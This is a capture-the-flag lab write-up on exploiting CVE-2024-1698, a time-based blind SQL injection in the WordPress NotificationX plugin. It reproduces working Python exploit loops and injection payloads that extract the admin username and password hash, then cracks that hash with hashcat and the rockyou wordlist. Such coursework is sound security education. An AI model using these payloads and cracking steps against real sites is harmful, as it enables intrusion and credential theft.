

# CTF 6 - Week 8 - SQL Injection

## Reconnaissance

We accessed the web server at `http://44.242.216.18:5008`. As soon as the page loaded, we saw a notification pop-up about a comment (posted on November 16, 2024) from the user `concerned-hacker`, which mentioned they cracked the admin password and its hash starts with `$P$B`.


Image 1: NotificationX pop-up

### Task 1: You should start by gathering all the information you can about the site. In particular, and as in a previous Wordpress challenge, find out versions of installed software

By inspecting the page source, we found the following applications'/plugins' versions:

- WordPress: 6.7.1
- NotificationX: 2.8.1

As soon as we returned to the main page, we saw the notification pop-up again (and it keeps popping up every few seconds, even without refreshing the page). We noticed that the notification was generated by the NotificationX plugin for WordPress. Given that it contains the name of the user who posted the comment, the date, and the comment itself, we know that it queries the database, so it is a possible vector for an SQL injection attack.

## Researching and choosing the vulnerability

### Task 2: You already know that we want to exploit an SQL injection vulnerability. Are there any reported vulnerabilities in public databases and/or tools that allow you to automate the discovery and abuse of SQL injection vulnerabilities?

To try and confirm our suspicions, as done in the other CTFs, we tried to find vulnerabilities that affected the specified version of the NotificationX plugin in a [CVE database](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=NotificationX). Given that 2 of the 3 vulnerabilities found ([CVE-2020-36744](https://www.cve.org/CVERecord?id=CVE-2020-36744) - a vulnerability relating to Cross-Site Request Forgery - and [CVE-2022-0349](https://www.cve.org/CVERecord?id=CVE-2022-0349) - vulnerability relating to SQL Injection) were already patched in versions >1.8.2 and >=2.3.9, respectively, only 1 vulnerability was left. [CVE-2024-1698](https://www.cve.org/CVERecord?id=CVE-2024-1698) affected all versions <= 2.8.2 and it was a SQL Injection vulnerability, so it was a very plausible candidate for the vulnerability we were looking for.

## Finding an exploit and exploiting the vulnerability

Due to the high likelihood of this being the vulnerability we were looking for, we decided to look for its exploit. By simply searching on Google for "CVE-2024-1698 exploit", we came across [this exploit](https://github.com/kamranhasan/CVE-2024-1698-Exploit). We downloaded and analyzed it, to understand how it worked, and be able to answer the following questions.

### Task 3: Which endpoint of the site is vulnerable, and how can an attack be carried out? How can the vulnerability be catalogued?

According to the exploit, the vulnerable endpoint is the NotificationX plugin analytics API (`http://localhost/wp-json/notificationx/v1/analytics`), in our case, we replace the default `localhost` with the provided web server `http://44.242.216.18:5008/`.

The attack is carried out by sending POST requests with specially crafted query payloads, which are then executed by the database:

1. The code sends a POST request to tentatively find the length of the admin username (`id=1`), using a prepared SQL query, starting from length 1 and increasing until 40 (default value, assuming the username is less than 40 characters long). If the length is correct, the server will sleep for a specified `delay` (indicating the length is correct), otherwise, it doesn't sleep. The time it takes for the server to respond is measured, and if it is greater than the `delay` (meaning the server slept... or not always, as we'll see below), the length is considered correct.

```python
for length in range(1, 41):  # Assuming username length is less than 40 characters
    resp_length = session.post(url, data={
        "nx_id": 1337,
        "type": f"clicks`=IF(LENGTH((select user_login from wp_users where id=1))={length},SLEEP({delay}),null)-- -"
    })

    # Elapsed time > delay if delay happened due to SQLi
    if resp_length.elapsed.total_seconds() > delay:
        username_length = length
        print("Admin username length:", username_length)
        break
```

2. Once the username length is found, the code sends consecutive POST requests, this time to find the admin username, by querying, for each character in the username, every possible value it could have (including NULL byte `b"\x00"`). The validation is done by checking if the server has taken longer to answer than the specified `delay` time, as before. The username is built character by character, and the process is repeated until the NULL byte (`b"\x00`) is found.

```python
for idx_username in range(1, username_length + 1):
    # Iterate over all the printable characters + NULL byte
    for ascii_val_username in (b"\x00" + string.printable.encode()):
        # Send the payload
        resp_username = session.post(url, data={
            "nx_id": 1337,
            "type": f"clicks`=IF(ASCII(SUBSTRING((select user_login from wp_users where id=1),{idx_username},1))={ascii_val_username},SLEEP({delay}),null)-- -"
        })

        # Elapsed time > delay if delay happened due to SQLi
        if resp_username.elapsed.total_seconds() > delay:
            admin_username += chr(ascii_val_username)
            # Show what we have found so far...
            print("Admin username:", admin_username)
            break  # Move to the next character
    else:
        # Null byte reached, break the outer loop
        break
```

3. Finally, the code sends the last batch of POST requests to find the admin password hash, character by character, using the same method as the username.

```python
for idx_password in range(1, 41):  # Assuming the password hash length is less than 40 characters
    # Iterate over all the printable characters + NULL byte
    for ascii_val_password in (b"\x00" + string.printable.encode()):
        # Send the payload
        resp_password = session.post(url, data={
            "nx_id": 1337,
            "type": f"clicks`=IF(ASCII(SUBSTRING((select user_pass from wp_users where id=1),{idx_password},1))={ascii_val_password},SLEEP({delay}),null)-- -"
        })

        # Elapsed time > delay if delay happened due to SQLi
        if resp_password.elapsed.total_seconds() > delay:
            admin_password_hash += chr(ascii_val_password)
            # Show what we have found so far...
            print("Admin password hash:", admin_password_hash)
            # Exit condition - encountered a null byte
            if ascii_val_password == 0:
                print("[*] Admin credentials found:")
                print("Username:", admin_username)
                print("Password hash:", admin_password_hash)
                exit(0)
```

Therefore, this vulnerability can be catalogued as a Time-Based Blind SQL Injection vulnerability. Blind, because the results of the queries are not directly returned to us, and Time-Based (which is a subtype of Blind SQL Injection) because, even though we can't directly see the results of the query, we can infer the results of the queries by measuring the time it takes for the server to respond (conditional delay using `SLEEP` in the query).

We ran the exploit:

```bash
python3 exploit.py
# Output:
# Admin username length: 1
# Admin username: 0
# Admin password hash:
# [*] Admin credentials found:
# Username: 0
# Password hash:
```

> This output is due to the fact that the default delay value was 0.3 seconds, which was too low for the server to respond in time. Due to the conditions (such as `if resp_length.elapsed.total_seconds() > delay`) interpreting the time taken for a (sleepless) response as a response after a server sleep, it made the following incorrect assumptions::
>
> - the correct username length being found (1) - since the first request (with the first element of the range of values) already took longer than the delay
> - the correct first character of the username being the NULL byte (first one checked in `for ascii_val_username in (b"\x00" + string.printable.encode())`), which marks the end of the username - since the first request already took longer than the delay
> - the first character of the password hash being the NULL byte (first one checked in `for ascii_val_password in (b"\x00" + string.printable.encode())`), which marks the end of the password (and consequently, the exploit) - since the first request already took longer than the delay

So, we increased the delay to 1 second, and ran the exploit again, getting the following output:

```plaintext
Admin username length: 3
Admin username: a
Admin username: ad
Admin username: adm
Admin password hash: $
Admin password hash: $P
Admin password hash: $P$
Admin password hash: $P$B
Admin password hash: $P$Bu
Admin password hash: $P$BuR
Admin password hash: $P$BuRu
Admin password hash: $P$BuRuB
Admin password hash: $P$BuRuB0
Admin password hash: $P$BuRuB0M
Admin password hash: $P$BuRuB0Mi
Admin password hash: $P$BuRuB0Mi3
Admin password hash: $P$BuRuB0Mi39
Admin password hash: $P$BuRuB0Mi392
Admin password hash: $P$BuRuB0Mi3926
Admin password hash: $P$BuRuB0Mi3926H
Admin password hash: $P$BuRuB0Mi3926H8
Admin password hash: $P$BuRuB0Mi3926H8h
Admin password hash: $P$BuRuB0Mi3926H8h.
Admin password hash: $P$BuRuB0Mi3926H8h.h
Admin password hash: $P$BuRuB0Mi3926H8h.hc
Admin password hash: $P$BuRuB0Mi3926H8h.hcA
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3p
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pS
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pS

Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pS
                                              r
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pS
                                              rU
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pS
                                              rUP
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pS
                                              rUPy
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pS
                                              rUPyq
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pS
                                              rUPyqK
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pS
                                              rUPyqK0
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pS
                                              rUPyqK0o
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pS
                                              rUPyqK0o1
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pS
                                              rUPyqK0o10
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pS
                                              rUPyqK0o10
[*] Admin credentials found:
Username: adm
Password hash: $P$BuRuB0Mi3926H8h.hcA3pS
                                        rUPyqK0o10

```

The output seemed weird, due to the username being only `adm` and there being a lot of whitespace near the end of the password hash. Just in case, we tried to run the exploit again, to see if it outputted the same, but with a delay of 2 seconds, and got the following output:

---

```plaintext
Admin username length: 5
Admin username: a
Admin username: ad
Admin username: adm
Admin username: admi
Admin username: admin
Admin password hash: $
Admin password hash: $P
Admin password hash: $P$
Admin password hash: $P$B
Admin password hash: $P$Bu
Admin password hash: $P$BuR
Admin password hash: $P$BuRu
Admin password hash: $P$BuRuB
Admin password hash: $P$BuRuB0
Admin password hash: $P$BuRuB0M
Admin password hash: $P$BuRuB0Mi
Admin password hash: $P$BuRuB0Mi3
Admin password hash: $P$BuRuB0Mi39
Admin password hash: $P$BuRuB0Mi392
Admin password hash: $P$BuRuB0Mi3926
Admin password hash: $P$BuRuB0Mi39266
Admin password hash: $P$BuRuB0Mi39266H
Admin password hash: $P$BuRuB0Mi39266H8
Admin password hash: $P$BuRuB0Mi39266H8n
Admin password hash: $P$BuRuB0Mi39266H8nh
Admin password hash: $P$BuRuB0Mi39266H8nh+
Admin password hash: $P$BuRuB0Mi39266H8nh+,
Admin password hash: $P$BuRuB0Mi39266H8nh+,.
Admin password hash: $P$BuRuB0Mi39266H8nh+,._
Admin password hash: $P$BuRuB0Mi39266H8nh+,._b
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bh
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhc
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 3
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38p
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp+
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp+_
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp+_4
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp+_4s
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp+_4sB
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp+_4sBO
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp+_4sBOS
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp+_4sBOS'
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp+_4sBOS'1
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp+_4sBOS'1p
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp+_4sBOS'1pr
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp+_4sBOS'1prV
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp+_4sBOS'1prVq
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp+_4sBOS'1prVqU
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp+_4sBOS'1prVqUv
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp+_4sBOS'1prVqUvP
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp+_4sBOS'1prVqUvPy
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp+_4sBOS'1prVqUvPy,
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp+_4sBOS'1prVqUvPy,q
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp+_4sBOS'1prVqUvPy,qN
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp+_4sBOS'1prVqUvPy,qN0
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp+_4sBOS'1prVqUvPy,qN0#
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp+_4sBOS'1prVqUvPy,qN0#o
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp+_4sBOS'1prVqUvPy,qN0#o1
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp+_4sBOS'1prVqUvPy,qN0#o18
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp+_4sBOS'1prVqUvPy,qN0#o180
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp+_4sBOS'1prVqUvPy,qN0#o1801
Admin password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp+_4sBOS'1prVqUvPy,qN0#o1801
[*] Admin credentials found:
Username: admin
Password hash: $P$BuRuB0Mi39266H8nh+,._bhcA 38pp+_4sBOS'1prVqUvPy,qN0#o1801
```

This was a significantly different output, the username is now the complete word `admin` (so we know the previous answer was wrong) and the password hash is way longer and different. To verify, we then increased the delay to 3 seconds.

---

After many tries, we experienced lower username lengths, different letters on the username (e.g. `adein`), and other weird outputs. This lead us to think about the possibility of connection instability, which could be causing the exploit to output incorrect results.

The delay just increases the time frame for the server to respond, and consequently, for the exploit to consider what a correct response is. So, to account for any possible network instability, we decided to increase the delay to 10 seconds, to widen the time difference between a sleepless response and a response after sleeping for a `delay`. This makes the exploit significantly more reliable, but also way slower, as it has to wait 10 seconds for each character of the username and password hash:

```plaintext
Admin username length: 5
Admin username: a
Admin username: ad
Admin username: adm
Admin username: admi
Admin username: admin
Admin password hash: $
Admin password hash: $P
Admin password hash: $P$
Admin password hash: $P$B
Admin password hash: $P$Bu
Admin password hash: $P$BuR
Admin password hash: $P$BuRu
Admin password hash: $P$BuRuB
Admin password hash: $P$BuRuB0
Admin password hash: $P$BuRuB0M
Admin password hash: $P$BuRuB0Mi
Admin password hash: $P$BuRuB0Mi3
Admin password hash: $P$BuRuB0Mi39
Admin password hash: $P$BuRuB0Mi392
Admin password hash: $P$BuRuB0Mi3926
Admin password hash: $P$BuRuB0Mi3926H
Admin password hash: $P$BuRuB0Mi3926H8
Admin password hash: $P$BuRuB0Mi3926H8h
Admin password hash: $P$BuRuB0Mi3926H8h.
Admin password hash: $P$BuRuB0Mi3926H8h.h
Admin password hash: $P$BuRuB0Mi3926H8h.hc
Admin password hash: $P$BuRuB0Mi3926H8h.hcA
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3p
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pS
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSr
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSrU
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSrUP
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSrUPy
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSrUPyq
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSrUPyq0
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o1
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o10
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o10
[*] Admin credentials found:
Username: admin
Password hash: $P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o10
```

After 5 tries, the exploit always outputted the same username and password hash as above, so we considered this the correct output.

---

### Task 4: The attack will allow you to extract information from the server's database. In particular, you want to find out the administrator's password, but as good security rules dictate, this is not stored cleanly in the database, but only a hash of the original password. For this server, and in more detail, what is the password storage policy?

By searching online for: "what hash function does wordpress use", we found out that WordPress uses the PHP Password Hashing Framework (PHPass). This matches the information that we got in `concerned-hacker`'s comment, given that `$P$` is the prefix for PHPass hashes (and `B` encodes the iteration count).

Furthermore, nowadays, PHPass uses the `bcrypt` algorithm (based on the Blowfish cypher), the default using the `password_hash()` PHP function. The algorithm includes a unique salt, which is a random string of characters that is added to the password before hashing, so that, if two users have the same password, their hashes will be different.

However, due to lack of PHP support for `bcrypt` in the past, and backwards compatibility, WordPress also supports the `MD5`, which is still used for older passwords, even though it is considered a weak algorithm.

### Task 5: Is storing a password hash secure in the sense that it makes it impossible to recover the original password? This problem is very common not only in the case of vulnerabilities, but also in the case of data leaks. There are various ways of trying to reverse hash functions for passwords and tools to automate the process

Given that we found the password hash, and the password storage policy, we can try to crack the hash using a password cracker. When searching for one, we found `hashcat`. With a wordlist like `rockyou`, we can execute a dictionary attack on the hash (by trying to hash each word in the wordlist and comparing it to the hash we have). We did so with the following command:

```bash
./hashcat -m 400 -a 0 '$P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o10' rockyou.txt -o cracked.txt
```

> Note: The `-m 400` flag specifies the hash type (PHPass), the `-a 0` flag specifies the attack mode (dictionary attack), and the `-o cracked.txt` flag specifies the output file for the cracked password.
>
> Note 2: The origin of the `rockyou` wordlist is from a data breach on a company of the same name, in 2009, which consisted of a series of terrible security practices, such as storing passwords in plaintext, sending them in also plaintext for password recovery, having a system that is vulnerable to 10-year-old SQL injection vulnerabilities, and many more, resulting in the breach of 32 million accounts, totaling 14.3 million unique passwords, which make up the `rockyou` wordlist.

After the hashcat decryption finished, we got an output containing a lot of interesting information, including hardware information, the time it took to crack the hash, the number of hashes processed per second, the size of the dictionary/wordlist, how far the wordlist was processed until the password was found, and many more:



---

Therefore, we can conclude that storing a password hash does not make it impossible to recover the original password, given that we are able to crack hashes using methods such as dictionary attacks.

The output file `cracked.txt` contained the following line, which related the password hash to the password:

```plaintext
$P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o10:heartbroken
```

Upon submitting the password `heartbroken` as the flag (`flag{heartbroken}`), we completed the challenge.
